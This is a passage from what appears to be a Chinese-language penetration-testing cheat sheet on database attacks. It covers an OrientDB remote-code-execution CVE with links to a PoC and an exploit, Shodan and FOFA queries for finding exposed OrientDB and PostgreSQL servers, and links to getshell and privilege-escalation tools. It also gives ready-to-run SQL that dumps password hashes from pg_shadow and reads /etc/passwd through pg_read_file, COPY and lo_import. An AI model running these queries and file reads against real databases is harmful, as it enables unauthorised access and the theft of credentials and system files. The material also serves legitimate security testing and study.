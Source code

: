 OrientDB 是英国 Orient 公司一套开源的 NoSQL 数据库管理系统。该系统支持 ACID 事务、快速索引和 SQL 查询等功能。

> fofa : app="OrientDB"

**CVE-2017-11467**
- 简介

    OrientDB 2.22 及之前的版本中存在安全漏洞，该漏洞源于程序没有强制执行权限请求。远程攻击者可通过发送特制的请求利用该漏洞执行任意的操作系统命令。

- 相关文章
    - [OrientDB远程代码执行漏洞POC分析以及复现|CVE-2017-11467](https://bbs.ichunqiu.com/thread-33175-1-18.html)

- POC | Payload | exp
    - [OrientDB - Code Execution](https://www.exploit-db.com/exploits/44068)

---

## PostgreSQL

> shodan : "port:5432 PostgreSQL"

> fofa : app="PostgreSQL"

**相关文章**
- [实战案例：针对某系统postgresql注入](https://mp.weixin.qq.com/s/I5hDjIEzn0rKA9aCZsJw9w)
- [渗透中利用postgresql getshell](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E6%B8%97%E9%80%8F%E4%B8%AD%E5%88%A9%E7%94%A8postgresql%20getshell/)

**相关工具**
- [No-Github/postgresql_udf_help](https://github.com/No-Github/postgresql_udf_help) - PostgreSQL 提权辅助脚本
- [T3st0r-Git/hack_postgres](https://github.com/T3st0r-Git/hack_postgres) - 便捷地使用PostgreSQL自定义函数来执行系统命令，适用于数据库管理员知道postgres密码却不知道ssh或RDP密码的时候在服务器执行系统命令。

**查询密码**

```sql
SELECT usename, passwd FROM pg_shadow;
```

**PostgreSQL 读取文件**

```sql
select pg_read_file('/etc/passwd');
drop table testaaaa;
create table testaaaa(t TEXT);
copy testaaaa from '/etc/passwd';
select * from testaaaa limit 1 offset 0;
```

**PostgreSQL 读取文件2**

```sql
Select lo_import('/etc/passwd',12345678);
select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a
```

**PostgreSQL 写文件**
